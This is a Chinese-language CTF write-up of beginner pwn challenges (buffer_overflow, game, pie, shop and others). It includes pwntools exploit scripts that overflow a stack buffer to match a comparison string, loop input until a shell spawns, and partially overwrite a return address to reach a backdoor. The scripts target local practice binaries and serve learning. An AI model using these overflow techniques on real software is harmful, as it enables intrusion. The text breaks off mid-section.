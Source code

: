 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + b'd'

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250115100413.png]]
# real_login
![[Pasted image 20250115100541.png]]
当输入为password时获取shell
![[Pasted image 20250115100606.png]]
password如上
shell：
![[Pasted image 20250115100635.png]]
# ret2text

# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。
![[Pasted image 20250115155103.png]]
根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.
![[Pasted image 20250115155212.png]]
那么只需要让拥有的钱数少于50后触发选项3就能触发zheng chu
